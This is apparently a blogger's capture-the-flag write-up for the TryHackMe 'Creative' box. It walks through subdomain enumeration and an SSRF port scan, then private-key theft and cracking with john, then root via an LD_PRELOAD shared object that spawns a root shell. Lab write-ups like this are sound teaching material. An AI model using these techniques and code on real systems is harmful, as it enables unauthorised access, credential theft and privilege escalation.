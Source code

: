 +++
title = "THM - Creative writeup"
date = "2024-05-08T21:45:30+02:00"
tags = ["tryhackme", "dns", "subdomain", "nmap", "ssrf", "python", "john_the_ripper", "ld.so", "c_lang", "ld_preload"]
aliases = ["/2024/05/08/creative/"]
categories = ["Pentesting", "Writeup", "CTF"]
showTableOfContents = true
showHeadingAnchors = true
heroStyle = "background"
showHero = true
+++

Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) box ["Creative"](https://tryhackme.com/r/room/creative).

## Information gathering

If you have read any of my older writeups, you know that I always have the same start:

```bash
nmap -Pn TARGET_MACHINE_IP -oN ports && nmap -Pn -sC -sV -p $(grep -Po '.*(?=/tcp)' ports | tr '\n' ',') TARGET_MACHINE_IP -oN services
```


That scan reveals two open ports:

- 22 which is running OpenSSH
- 80 which is running Apache

## Redirection to FQDN

After trying to visit the website by type the ip into the browser url bar, the response is a redirection to the FQDN `creative.thm`, which results into a empty page. To solve this problem, I have to add the ip and the FQDN to my `/etc/hosts` file.

After that the website is shown as expected:

![creative.thm.png](/images/creative/creative.thm.png)

I have looked through the whole page but there are no hints there. I even scraped all the usernames and the structure of email address.

But all were useless and I have to change my direction.

### Forgotten door

I decided to search for subdomains with help of [gobuster](https://github.com/OJ/gobuster). And there is one subdomain:

![gobuster_vhost.png](/images/creative/gobuster_vhost.png)

I used `subdomains-top1million-20000.txt` wordlist, but `rockyou.txt` will also work in this case.
Now lets have a look on that subdomain by adding it to the `/etc/hosts` file with the same ip as the main site.

![beta.creative.thm.png](/images/creative/beta.creative.thm.png)

I should be able to give a url which will be "tested" from the target server. This looks like a opportunity for an [SSRF-attack](https://portswigger.net/web-security/ssrf#:~:text=Server%2Dside%20request%20forgery%20is,services%20within%20the%20organization's%20infrastructure.).

First let's open a simple http server locally and try to reach it from the target server.

```bash
python -m http.server 9090
```


![targetToUs.png](/images/creative/targetToUs.png)

Now that the proof is done, I have decided to check if I can check for open ports from internally. From external with help of nmap, I was able to find two open ports: 80 and 22.

First I checked the open port 22 and got a

```html
<p>Dead</p>
```


response. Then, just to be sure that this really doesn't work, I checked port 80, which is also open. But this time, the response contains the whole main page as html text. By inspecting the request with developer tools, I had all needed information to create a simple portscanner with python.

![inspectURLTesting.png](/images/creative/inspectURLTesting.png)

### DIY Portscan

```python
import requests
from concurrent.futures import ThreadPoolExecutor

def checkPort(port):
  data = {"url": f"http://localhost:{port}"}
  response = requests.post("http://beta.creative.thm", data=data)
  if "Content-Length" not in response.headers:
    print(f"Found open port: {port}")

with ThreadPoolExecutor(max_workers=30) as executor:
  executor.map(checkPort, list(range(1,65535)))
```

I'm checking for the `Content-Length` header, because it only appears when the port is not open. With this scan I was able to find out that port 1337 is accepting requests.

When requesting that port the response is the root directory of the server self.

## Footstep

From this point, to get the content of user.txt is straight forward, because I can just enter any directory I want to get the content of it. Just look at `/home/` to get the username and then into the user's home to find out the name of the file with the first flag.

After that I didn't waste time on bruteforcing the password for the user to get ssh connection. I just read the content of `~/.ssh` and grab the user's private key. The private key is encrypted, so to be able to use it and connect via ssh, I had to bruteforce it with john.

```bash
ssh2john id_rsa > id_rsa_hash
```


```bash
john --wordlist ./rockyou.txt id_rsa_hash
```


After that I was logged in as user saad via ssh.

## PrivEsc

The last step has to be done now. In order to get root, I've searched for any SUID oder Cronjob without luck.
To see if saad has some sudoers privileges, I have to get the password. But the cracked password for the private key is not the same as for the user. By looking into the users home directory, I observed the password in the `.bash_history` file.
And the user has sudoers privileges but only for using the ping command, which is useless for in order to gain root privileges. But there is something else...

![sudo-l.png](/images/creative/sudo-l.png)

This is interesting, because we can use it to gain root access. (see [man8 - ld.so](https://man7.org/linux/man-pages/man8/ld.so.8.html))

For this I have created a simple `c` code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD"); // To prevent further interceptions of library functions
  // Set user ID and Group to 0 (root)
  setgid(0);
  setuid(0);
  // Spawn a shell as root
  system("/bin/bash");
}
```

Then compile and run the code to get root.

```bash
gcc -fPIC -shared -o getRoot.so getRoot.c -nostartfiles
```


The `-nostartfiles` is needed or the redefinition of \_init() would cause a compiling error.

```bash
sudo LD_PRELOAD=./getRoot.so ping
```


Good luck! :)

---

{{<figure
src="/images/darksoulsMeme.png"
nozoom=true
>}}

